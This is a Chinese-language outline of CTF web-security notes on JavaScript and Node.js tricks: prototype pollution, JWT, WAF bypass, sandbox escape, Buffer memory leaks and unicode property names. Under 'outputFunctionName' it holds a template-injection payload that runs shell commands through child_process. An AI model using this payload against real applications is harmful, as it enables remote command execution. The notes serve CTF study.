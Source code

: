 # 原型链污染
	- [[CTFWEB/JS/原型链污染]]
- # 在HTTP请求中伪造整个HTTP请求
	- ((63c7fc34-474b-48bd-a4f8-5c5a68188c89))
- # outputFunctionName
	- `a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');//`
- # 大小写转换
	- https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html
- # 乱码加密
  id:: 636665b6-16ed-4f0a-b6fc-46c5756e5222
	- 题目：NaNNaNNaNNaN-Batman
	  
	  js 中的控制字符代表 js 代码，可以被 js 自动转义
- # Buffer()
	- 在较早一点的 node 版本中 (8.0 之前)，当 Buffer 的构造函数传入数字时, 会得到与数字长度一致的一个 Buffer，并且这个 Buffer 是未清零的。8.0 之后的版本可以通过另一个函数 Buffer.allocUnsafe(size) 来获得未清空的内存。
- # JWT
  id:: 62efd884-36bd-4729-a628-6c94b3f1b08b
	- [[CTFWEB/JWT]]
- # 绕过
	- [[CTFWEB/JS/WAF绕过]]
- # 沙盒逃逸
	- [[CTFWEB/JS/沙盒逃逸]]
- # 注释
	- JS 也可以使用 html 的注释`<!-- -->`
- # 解混淆
	- https://blog.csdn.net/weixin_43411585/article/details/123437953
	- https://blog.csdn.net/freeking101/article/details/121668637
- # unicode的解析问题
	- ```js
	  req.session.guestǃ=true // 感叹号是unicode里的，是属性名的一部分
	  ```
- # js.map读取
	- .js.map文件里存放着网站的API路由
	- https://xz.aliyun.com/t/15315?time__1311=GqjxnD2ieYqqlxGghDy0Q7i%3Dait2Q43x#toc-9